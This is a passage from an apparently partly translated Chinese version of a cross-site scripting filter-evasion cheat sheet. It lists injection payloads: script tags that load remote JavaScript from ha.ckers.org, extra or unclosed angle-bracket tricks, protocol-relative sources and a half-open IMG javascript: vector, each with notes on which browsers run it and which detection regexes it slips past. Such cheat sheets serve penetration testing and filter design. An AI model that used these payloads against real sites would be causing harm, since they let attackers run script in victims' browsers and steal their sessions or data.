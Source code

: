 ```
<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>

```

* * *

附加的开括号
------

Franz Sedlmaier提出，利用这个xss向量可以绕过某些检测引擎，因为这些引擎通过拼配最早出现的一对尖括号，并且提取其内部内容作为标签，而没有使用更加有效的算法例如 Boyer-Moore（寻找打开的尖括号以及相关标签的模糊拼配）。代码中的双斜杠可以抑制额外尖括号导致的javascript错误。

```
<<SCRIPT>alert("XSS");//<</SCRIPT>

```

* * *

没关闭的script标签
------------

对于使用了 Gecko渲染引擎的Firefox 和 Netscape 8.1 ，你并不需要常规xss中"></SCRIPT>"这部分。 Firefox会帮你闭合标签，并且加入结束标签。多么的体贴啊！ Unlike the next one, which doesn't effect Firefox, this does not require any additional HTML below it. 如果需要，你可以加入引号，但通常他并不是必须的。注意，我并不清楚这个代码被注入后html代码会闭合成什么样子。

```
<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >

```

* * *

script标签中的协议解析
--------------

这个特殊的变体由 Łukasz Pilorz 提出，并且基于上文中 Ozh提出的协议解析绕过。这个xss例子工作在 IE, 使用IE渲染引擎的Netscape 以及加了在结尾的 Opera。这是非常有用的在输入长度受到限制。域名越短越好。 ".j"是有效的，不需要考虑编码问题因为浏览拿起可以自动识别在一个script标签中。

```
<SCRIPT SRC=//ha.ckers.org/.j>

```

* * *

半开的HTML/JavaScript xss向量
------------------------

不同于 Firefox ，ie渲染引擎不会加入额外的数据到你的页面。但是它允许javascript指定在图片标签中这是有用的作为一个xss向量，因为它不需要一个结束的尖括号。你可以插入这个xss向量在任何html标签后面。甚至没有用">"关闭标签。 A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: /((\%3D)|(=))[^\n]*((\%3C)|<)[^\n]+((\%3E)|>)/ because it doesn't require the end ">". 这也是有效的去对付真实的xss过滤器，我曾经碰见过试用半开的<IFRAME 标签替代 <IMG 标签，

```
<IMG SRC="javascript:alert('XSS')"

```

* * *

双开尖括号
-----
